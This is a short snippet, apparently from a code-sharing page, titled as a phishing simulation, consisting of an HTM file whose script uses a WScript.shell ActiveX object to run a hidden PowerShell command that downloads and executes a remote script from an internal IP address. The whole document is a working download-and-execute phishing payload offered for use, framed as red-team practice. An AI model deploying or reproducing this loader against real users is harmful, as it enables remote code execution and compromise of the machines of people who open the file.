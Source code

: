 ### Fundamental Phishing Simulation
Simple HTM File
```
<html>
<script>	
    	var Data = "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.100.1/a'));\"";
	var Value = new ActiveXObject("WScript.shell");
	Value.run(Data );
</script>
</html>
```
